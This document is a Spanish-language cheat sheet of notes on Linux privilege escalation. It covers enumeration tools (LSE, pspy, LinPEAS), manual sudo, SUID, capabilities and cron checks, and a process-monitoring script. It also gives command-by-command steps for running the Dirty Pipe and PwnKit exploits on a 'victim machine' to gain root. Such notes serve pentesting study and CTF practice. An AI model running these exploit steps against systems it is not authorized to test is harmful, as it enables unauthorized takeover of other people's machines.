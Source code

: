 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios #Capabilities #SUID #LSE #PSPY #LinPEAS #CRON #Netstat #GCC

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
* [GTFOBins](https://gtfobins.github.io/)

## Enumeracion Tools Automaticas Enumeration

-   [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

Esta herramienta nos ayudar a identificar vulnerabilidades para poderla explotar y escalar privilegios.
	**lse.sh** > Mirar en modo Raw
	Copiar la url resultante en Raw 

```bash
❯ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh # Binario que debemos de descargar
❯ chmod +x lse.                     # Le damos permisos de ejecucion 
❯ ./lse.sh                          # Ejecutamos el binario

	# h = Panel de ayuda
``` 


-   [PSPY](https://github.com/DominicBreuker/pspy)

Esta herramienta nos ayudara a identificar tareas, procesos que se estan ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar

```bash
❯ ./pspy                            # Ejecutamos el binario 
```


* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)     ->     Para descragar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
```bash
❯ chmod 777 linpeas.sh                   # Agregamos los privilegios para poder ejecutarlo en la maquina victima
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```


## Manual 

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ su root                                          # Para convertirnos en root y debemos de proporcionar una passwd
```

```bash
❯ uname -a                                         # Miramos informacion del Kernel
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial
```

```bash
❯ ./bash -p                                        # Y asi obtenemos la bash del root, esta debe tener permisos SUID con la flag 's'

	# p = privilege
```

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 

	# 27017 = Mongo el cual podemos usar para buscar usuario y passwd
```


#### gcc

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

#### Privilegios SUID

* [GTFOBins](https://gtfobins.github.io/)
* [Pkexec-PwnKit](https://github.com/berdav/CVE-2021-4034)

Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root

	# /usr/bin/pkexec = Vulnerable al PwnKit           
```

```bash
# Para el Pkexec en la maquina de atacante 
❯ git clone https://github.com/berdav/CVE-2021-4034          # Nos descargara un archivo el cual debemos de comprimir y pasarlo a la maquina victima por http
❯ zip -r comprimido.zip CVE-2021-4034/                       # Comprimimos el archivo CVE y le ponemos de nombre 'comprimido.zip' 

# Para el Pkexec en la maquina victima
❯ unzip comprimido.zip                                       # Descomprimimos el archivo .zip
❯ cd CVE-2021-4034/                                          # Nos dirigimos al directorio
❯ make                                                       # Compilamos todo lo que se encuentra ahi
❯ ./cve-2021-4034                                            # Ejecutamos el archivo .sh y con eso nos convertimos en root
```

#### Capabilities

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

Tipos de capabilities:
	# /usr/bin/perl cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
	# /usr/bin/python3.9  cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
```


#### Tareas CRON

```bash
❯ cat /etc/crontab                   # Tareas CRON: son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

* Podemos crearnos un Script Manual para ver las tareas que se estan ejecutando y ver lor procesos nuevos, antiguos, asi como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nano file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```

---
